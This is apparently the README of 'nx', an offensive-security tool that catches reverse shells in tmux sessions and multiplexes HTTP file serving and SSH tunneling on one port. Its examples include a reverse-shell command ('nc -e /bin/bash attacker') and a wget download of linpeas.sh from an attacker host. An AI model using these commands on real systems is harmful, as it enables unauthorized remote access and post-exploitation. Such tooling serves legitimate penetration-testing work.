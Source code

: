 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

## Prerequisites

- tmux - required for session/window management
- socat - required for TTY handling and keystroke forwarding

## Installation

### From source
```bash
git clone https://github.com/audibleblink/nx
cd nx
go build -o nx .
./nx --install-plugins  # Install bundled plugins
```

### Using go install
```bash
go install github.com/audibleblink/nx@latest
nx --install-plugins  # Install bundled plugins
```

The `--install-plugins` flag copies bundled plugins (like `auto.sh`) to `~/.config/nx/plugins/`. This only needs to be run once after installation.

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there

```
Usage:
  nx [OPTIONS]

Application Options:
      --auto           Attempt to auto-upgrade to a tty (deprecated: use --exec auto)
      --exec=          Execute plugin script on connection
      --install-plugins Install bundled plugins to config directory
  -i, --host=      Interface address on which to bind (default: 0.0.0.0)
  -p, --port=      Port on which to bind (default: 8443)
  -t, --target=    Tmux session name (default: nx)
  -v, --verbose    Debug logging
      --sleep=     adjust if --auto is failing (default: 500ms)
  -d, --serve-dir= Directory to serve files from over HTTP
  -s, --ssh-pass=  SSH password (empty = no auth)
```

## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP and SSH tunneling on the same port as shell connections
- **SSH tunneling**: Support for local (-L) and remote (-R) port forwarding with optional password authentication
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell scripts stored in `~/.config/nx/plugins/`.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
2. Make it executable: `chmod +x ~/.config/nx/plugins/<name>.sh`
3. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple shell scripts with these features:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux `send-keys` commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script

## Protocol Multiplexing

nx can serve files over HTTP and provide SSH tunneling on the same port as shell connections. This allows you to host files, create SSH tunnels, and catch shells on a single port.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# Shell connections still work normally
nc -e /bin/bash attacker 8443

# From target machine - download files
wget http://attacker:8443/linpeas.sh

```


## SSH Tunneling

nx supports SSH tunneling for port forwarding without providing shell access.

### SSH Usage Examples

```bash
# Start nx with SSH tunneling (no password)
nx -p 8443 -v

# Start nx with SSH password authentication
nx -p 8443 -s mypassword -v

# From client - Local port forwarding (-L)
ssh -L 8080:internal-server:80 -N user@attacker -p 8443

# From client - Remote port forwarding (-R)  
ssh -R 9090:localhost:22 -N user@attacker -p 8443
```


## How?

unix domain sockets mannn

## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [x] ~~super simple chisel-light functionality~~ ✅ **DONE**: SSH tunneling with local/remote port forwarding
- [x] facilitate installing plugins dir to xdg
- [ ] handle stdio with the socket directly with `nx`, eliminating the need for `socat`

